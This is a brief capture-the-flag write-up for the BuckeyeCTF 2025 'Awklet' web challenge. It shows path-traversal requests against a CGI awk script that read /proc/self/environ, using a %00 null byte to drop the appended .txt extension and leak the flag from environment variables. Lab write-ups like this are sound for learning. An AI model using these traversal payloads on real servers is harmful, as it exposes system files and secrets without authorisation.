



# BuckeyeCTF 2025 : Awklet (web challenge)

## The Website Code:


#### When I first saw the website, I assumed it was a SQLi vulnerability.
### But it turns out it wasn’t SQLi at all — it was actually an LFI.

##### Here is the vulnerable part:


---

# I knew the flag was stored in the Docker environment file, so I tried loading it through the vulnerable parameter:
``` /cgi-bin/awklet.awk?name=x&font=../../../proc/self/environ ```




#### As you can see, it works — but where is the flag?
#### Like I noticed, the vulnerable code concatenates what we input with `.txt`:
``` ../../../proc/self/environ.txt ```

---

# So we need to break the path apart from the automatic `.txt` extension.  
Using a null-byte bypass does exactly that:
``` /cgi-bin/awklet.awk?name=x&font=../../../proc/self/environ%00 ```


# Wow, flag! hehe heckkkerr.  
Thanks for reading.
